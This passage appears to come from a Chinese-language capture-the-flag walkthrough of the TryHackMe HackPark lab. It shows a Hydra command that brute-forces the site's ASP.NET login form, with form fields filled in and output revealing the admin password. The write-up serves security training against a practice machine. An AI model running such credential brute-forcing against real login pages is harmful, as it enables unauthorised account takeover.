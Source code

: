+ hydra使用：

   ![Alt text](/style/image/image-288.png)

+ 修改hydra命令爆破：

   ```
   hydra -l <username> -P /usr/share/wordlists/<wordlist> <ip> http-post-form
   ```
   ```
   ┌──(kali㉿kali)-[~/桌面/THM/HackPark]
   └─$ hydra -l admin -P wordlist.txt 10.10.105.197 http-post-form "/Account/login.aspx:__VIEWSTATE=P%2FW2f6vqww1Svd0icQq9i6U%2FB6rfzhvJ2SwrhHabPJU%2FTJHzbektoeNeE595cIZnyHPRCqqwjJIQkCGzbLBrfOW8pK8tkT6%2FI4OHAjB3HsFBP5k%2BSkrEQ4tcHf8xeKFMKxMjKtCx7YSSrjsojQAhDlHJgA03W0XgQcMNc2y4VhRmtAmN&__EVENTVALIDATION=sVXaBOg1sx79dTXm1HA5cr9S%2BG2LVfj3BDzwn3aD9MIkcU9hNTjw%2FYmMMq1oSnv8SL9ydlcch06dKVRAAiXlQwnseEGqSKC9lHW4mueJ1NENXXYubhnYew1sMqhXrdZlYxNeQ0SdXMik1UstxUWkb9%2B9i2v2CKJgU%2BAxAVr%2FfpMKcGTH&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed" 
   ···
   [80][http-post-form] host: 10.10.105.197   login: admin   password: 1qaz2wsx
   ···
   ```

+ 登录：

   ![Alt text](/style/image/image-289.png)
